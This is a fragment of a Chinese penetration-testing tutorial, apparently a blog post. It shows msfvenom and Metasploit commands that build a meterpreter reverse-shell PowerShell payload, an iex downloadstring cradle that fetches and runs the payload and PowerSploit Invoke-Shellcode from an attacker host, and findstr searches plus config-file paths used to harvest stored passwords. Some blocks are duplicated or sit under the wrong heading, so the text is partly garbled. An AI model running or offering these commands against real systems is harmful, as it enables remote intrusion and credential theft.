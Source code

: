 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ5XyDY0FCsKytBW1qqSWhvyia7JQFJyW1cBicBTF8GrWoJkV6Yibu1SKH1PLHV2GLiaIy7qjPpelQ3MA/640?wx_fmt=png)

```
#生成powershell payload
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=192.168.1.5 LPORT=1123 -f powershell -o /root/xdx.ps1
#开启侦听
use exploit/multi/handler
set lport 1123
run
#目标下载生成好的ps脚本
iex(new-object net.webclient).downloadstring("http://192.168.3.1/xdx.ps1")  xdx.ps1 
iex(new-object net.webclient).downloadstring("http://192.168.3.1/PowerSploit/CodeExecution/Invoke-Shellcode.ps1") 
#可以将msf生成是payload进程注入
invoke-shellcode.ps1   
#执行进程注入，msf会反弹回话
Invoke-Shellcode  -shellcode  $buf  -Force
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ5XyDY0FCsKytBW1qqSWhv8Exebro2ZtwhDdXHDKIe1sw95jkDqNADlhzd0PNoZTDc5ZNb7wmkPg/640?wx_fmt=png)  

```
findstr  /s /m "password" \*.\*
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZ5XyDY0FCsKytBW1qqSWhvt2p6X2TY4qmZTjEY8lUjSzktdbibPoFW2y86npvafLUNI0Viap6TNIXQ/640?wx_fmt=png)

powersploit 还有很多给力的模块，这里写不过来~

**msf 调用 powershell**

```
Tomcat:
CATALINA\_HOME/conf/tomcat-users.xml
Apache:
/etc/httpd/conf/httpd.conf
Nginx:
/etc/nginx/nginx.conf
Wdcp:
/www/wdlinux/wdcp/conf/mrpw.conf
Mysql:
mysql\\data\\mysql\\user.MYD
```

**七、中间件配置文件**  
一个正常的 Web 应用肯定有对应的数据库账号密码信息，可以使用如下命令寻找包含密码字段的文件：  

```
findstr  /s /m "password" \*.\*
```

常用应用的默认配置路径：  

```
Tomcat:
CATALINA\_HOME/conf/tomcat-users.xml
Apache:
/etc/httpd/conf/httpd.conf
Nginx:
/etc/nginx/nginx.conf
Wdcp:
/www/wdlinux/wdcp/conf/mrpw.conf
Mysql:
mysql\\data\\mysql\\user.MYD
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNZ5XyDY0FCsKytBW1qqSWhvC7LsHkibusZfgkFP07NTkvzeplR8v4yrZfwXVv46wxjZ4oSvuibTVojA/640?wx_fmt=jpeg)